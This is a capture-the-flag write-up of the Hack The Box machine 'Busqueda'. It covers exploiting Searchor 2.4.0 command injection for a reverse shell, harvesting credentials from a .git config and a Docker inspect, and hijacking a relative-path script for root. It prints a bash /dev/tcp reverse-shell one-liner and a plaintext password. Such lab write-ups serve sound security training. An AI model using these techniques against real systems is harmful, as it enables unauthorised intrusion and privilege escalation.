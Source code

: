 # HTB Write-Up: Busqueda
## Phase 1: Reconnaissance
We begin by scanning for open ports and services using `nmap`.
**Command:**
```bash
nmap -sC -sV -oA scan 10.10.11.208
```

**Result:**  
Port 80 (HTTP) is open.

![image](https://github.com/user-attachments/assets/8fc185e7-3198-414b-b266-751ad3519205)

---
## Phase 2: Enumeration & Discovery

### Web Enumeration
Navigating to `http://10.10.11.208` in a browser returns an error. We resolve this by editing our `/etc/hosts` file to associate the domain with the target IP:

![image](https://github.com/user-attachments/assets/0eb0daca-34ab-417a-8491-7742b45c57e3)

![image](https://github.com/user-attachments/assets/ac9201b7-e62e-4030-be50-87a8c27f8b13)

With the host entry in place, the site loads successfully.

![image](https://github.com/user-attachments/assets/46c463bb-b153-419f-bfa3-ecef2f7cac91)

When submitting a search request, we can observe the URL being queried.

![image](https://github.com/user-attachments/assets/76a52cae-8911-4321-a094-9f5ad32c1914)

From the page footer and behavior, we identify two technologies in use:
- **Flask**
- **Searchor 2.4.0**

Researching Searchor 2.4.0 reveals a known **command injection vulnerability**. A proof of concept is publicly available:

[GitHub - Searchor 2.4.0 Exploit](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection)

![image](https://github.com/user-attachments/assets/b6d56657-2d63-4878-97c5-e94f68ac247f)

We use `wget` to download the exploit:

![image](https://github.com/user-attachments/assets/fc1f7cb0-fd9b-405a-a49f-d6a373255c10)

Start a listener on our machine:

![image](https://github.com/user-attachments/assets/3f0fdc3b-02ca-40ad-a836-776693a0347e)

Grant execute permissions and run the exploit using the domain and our attacker's IP:

![image](https://github.com/user-attachments/assets/74be9cc9-3f19-4455-989d-867f6e0fbc32)

This gives us a reverse shell on the target system:

![image](https://github.com/user-attachments/assets/753e3afe-a95e-447c-9e01-a83184551077)

We retrieve the user flag:

**Path:**
```
/home/svc/user.txt
```

![image](https://github.com/user-attachments/assets/0a13b7b5-33f9-453f-b301-55dcad57c44e)

---
## Phase 3: Privilege Escalation
### Attempted Enumeration
We try to view sudo privileges:
```bash
sudo -l
```

Access is denied.

![image](https://github.com/user-attachments/assets/2e02bc83-475b-4628-8c46-6dfe33422545)

We search for binaries with the SUID/SGID bit set:
```bash
find / -perm -4000 -type f 2>/dev/null
```

![image](https://github.com/user-attachments/assets/ebbbc95a-7aa6-4c3c-ba95-45b44dad9f10)

We check capabilities, but nothing here:
```bash
getcap -r / 2>/dev/null
```

![image](https://github.com/user-attachments/assets/a4cf14b9-2ae1-45cf-8834-87ccc40d0d7d)


### Git Enumeration
We search for Git repositories:
```bash
find / -type d -name ".git" 2>/dev/null
```

Inside one `.git` directory, we find a `config` file containing credentials:

![image](https://github.com/user-attachments/assets/69858c63-de51-4ee0-b46f-15f92bf9d0be)

Extracted Credentials:
```
Username: cody  
Password: jh1usoih2bkjaspwe92
```

The config references the domain: `gitea.searcher.htb`

Since port 22 (SSH) is open, we attempt an SSH login with the `svc` user:

![image](https://github.com/user-attachments/assets/d1b56848-989c-4c19-a7dd-4ef9721d23d6)

We successfully authenticate with the password. Running `sudo -l` now reveals two scripts executable as sudo:

![image](https://github.com/user-attachments/assets/f70cf5ab-96f5-4ad9-94b3-c91edd1a5055)

We cannot modify them, but we have **execute permissions**.

![image](https://github.com/user-attachments/assets/39da5932-a3c6-42ad-93ef-7ace538fd191)

Running one of the scripts shows a help menu — it's used for interacting with Docker containers:

![image](https://github.com/user-attachments/assets/a0c2646d-6621-4ae6-ba96-6c4e3a094ec6)

Docker supports Go templates to customize output. Using the `{{json .}}` template with `docker inspect`, we can print the full JSON data of a container.

To parse the JSON, we use `jq`, which is already installed.

Executing the script with this template reveals environment variables, including **Gitea credentials**.

![image](https://github.com/user-attachments/assets/0735fdcd-dc6f-4130-be49-d531b9c705f4)

We find a username and password in the `Config` section:

![image](https://github.com/user-attachments/assets/f2ecce0c-341e-47bb-88ff-edeb1fdad676)

---
## Phase 4: Gitea Exploitation to Root
We revisit the Gitea domain by adding it to our `/etc/hosts`:

![image](https://github.com/user-attachments/assets/6d512dab-6402-4870-a6d1-df2fab041d8b)

We log in with the discovered administrator credentials.

![image](https://github.com/user-attachments/assets/ef3457a6-6dfb-4125-83a4-e77e07f83529)

Inside a repository, we find `system-checkup.py` referencing `full-checkup.py` via a **relative path**.

![image](https://github.com/user-attachments/assets/9dbe9d02-a8bb-4a95-a5fd-b7d715c0002a)

We confirm that we can execute the `full-checkup.py` script from `/opt/scripts`.

![image](https://github.com/user-attachments/assets/fae10a48-2f09-4858-aeca-76664884f045)

It worked! This implies we can exploit the relative import by placing a malicious `full-checkup.py` script in the same directory from which we call `system-checkup.py`.

We create a malicious version that spawns a root shell:
```bash
echo 'import os; os.system("bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1")' > /tmp/full-checkup.py
chmod +x /tmp/full-checkup.py
```

![image](https://github.com/user-attachments/assets/dd628697-27e8-4a2c-88ee-79a89e4e865d)

We start a nc listener:

![image](https://github.com/user-attachments/assets/87032c76-4fef-4927-a7f0-44675682646f)

Run `system-checkup.py` from `/tmp`, where our malicious `full-checkup.py` resides:

![image](https://github.com/user-attachments/assets/95599fa7-ac1c-4886-8959-ccef204fe3af)

We receive a shell as root.

![image](https://github.com/user-attachments/assets/eae897aa-6381-4c37-afda-e72adc2ea3d7)

Retrieve the root flag from:
```
/root/root.txt
```

![image](https://github.com/user-attachments/assets/b073860b-14e9-452e-a250-4e34a91c9ce7)

